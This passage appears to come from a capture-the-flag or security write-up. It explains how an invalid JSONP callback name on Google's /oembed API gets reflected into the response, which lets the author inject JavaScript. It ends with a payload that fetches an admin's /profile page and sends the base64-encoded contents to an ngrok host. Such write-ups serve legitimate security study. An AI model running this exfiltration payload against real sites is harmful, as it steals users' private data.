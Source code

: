 This didn't seem very helpful. After all, Google decided _not_ to implement JSONP on the `/oembed` API, right? Using the `callback` parameter seems to have no effect.

<figure><img src="../../.gitbook/assets/Screenshot 2023-02-19 at 7.39.55 PM.png" alt=""><figcaption></figcaption></figure>

But when I randomly tried using `alert();` instead of `alert`, the following response was returned.

{% code overflow="wrap" %}
```javascript
// API callback
alert();({
  "error": {
    "code": 400,
    "message": "Invalid JSONP callback name: 'alert();'; only alphabet, number, '_', '$', '.', '[' and ']' are allowed.",
    "status": "INVALID_ARGUMENT"
  }
}
);
```
{% endcode %}

Wait, did I just trigger a JSONP response? For some reason, using a "valid" callback name does not elicit a JSONP response, but an "invalid" one yields a JSONP response saying that the callback name is invalid. That's really weird and ironic.

With our `callback` parameter reflected into the response, we can now inject arbitrary JavaScript code. The only restrictions are that quotes and angle brackets are escaped.

To exfiltrate the contents of the admin's `/profile` page, the following `callback` value can be used.

{% code overflow="wrap" %}
```javascript
&callback=fetch(`/profile`).then(function f1(r){return r.text()}).then(function f2(txt){location.href=`https://b520-49-245-33-142.ngrok.io?` btoa(txt)})
```
{% endcode %}
